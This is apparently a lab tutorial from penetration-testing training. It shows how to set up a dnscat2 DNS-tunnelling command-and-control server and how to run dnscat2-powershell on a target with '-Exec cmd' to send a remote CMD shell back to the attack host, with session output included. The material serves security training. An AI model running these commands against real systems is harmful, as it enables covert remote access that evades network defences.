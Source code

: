 - [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. 
- It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.
## Setting Up & Using dnscat2
```shell
git clone https://github.com/iagox86/dnscat2.git
```
#### Starting the dnscat2 server
```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
#### Cloning dnscat2-powershell to the Attack Host
```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.
#### Importing dnscat2.ps1
```powershell
Import-Module .\dnscat2.ps1
```
After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.
```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.
#### Confirming Session Establishment
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
#### Listing dnscat2 Options
```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```
#### Interacting with the Established Session
```shell
window -i 1
```
